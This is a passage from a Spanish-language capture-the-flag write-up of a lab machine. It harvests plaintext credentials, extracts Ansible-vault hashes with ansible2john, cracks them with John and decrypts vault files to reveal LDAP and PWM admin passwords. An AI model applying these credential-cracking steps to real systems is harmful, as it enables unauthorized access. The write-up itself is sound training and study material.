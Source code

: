 Filtramos la data y nos quedan estas credenciales:
```bash
username="admin" password="T0mc@tAdm1n"
username="robot" password="T0mc@tR00t"
ansible_password: Welcome1
pwm_admin_password: !vault
ldap_admin_password: !vault
```

Después de enumerar un poco más, vi que en el puerto **8443** había un servicio **HTTPS** corriendo, eche un ojo y efectivamente había un panel de autentificación, probé las credenciales pero ninguna funciono. Lo que me lleva a pensar en los últimos nombres de usuario que sacamos con el `grep -riE`, no tenían password, solo el nombre, fui directo al directorio **defaults**, le hice un `cat main.yml` y ahí estaban las credenciales cifradas en formato **Ansible-vault**, investigando un poquito vi que existe **ansible2john** así que probé eso.

```bash
ansible2john hash
```
Lo tuve que hacer de uno en uno, pero funciono perfectamente, así que los hashes que me devolvió **ansible2john** los trate de romper con **John**.

```bash
john ansible.hash
'!@#$%^&*'
```
Resulto que no íbamos mal encaminados, pero la contraseña que obtuvimos realmente era de la bóveda de **ansible**, no de los propios usuarios, pero bueno, estábamos avanzando.

Creamos un archivo para cada usuario con su hash en el interior.
```bash
nvim pwm_admin_login.yaml
nvim pwm_admin_password.yaml
nvim ldap_admin_password.yaml
```

Y lo desciframos con **ansible-vault**.
```bash
ansible-vault decrypt pwm_admin_password.yaml --output pwm_admin_password.decrypted

ansible-vault decrypt pwm_admin_password.yaml --output pwm_admin_password.decrypted

ansible-vault decrypt pwm_admin_login.yaml --output pwm_admin_login.decrypted
```
Ahí si tenemos credenciales:

```bash
cat *.decrypted
   
   File: ldap_admin_password.decrypted
   DevT3st@123
   
   File: pwm_admin_login.decrypted
   svc_pwm
   
   File: pwm_admin_password.decrypted
   pWm_@dm!N_!23
```
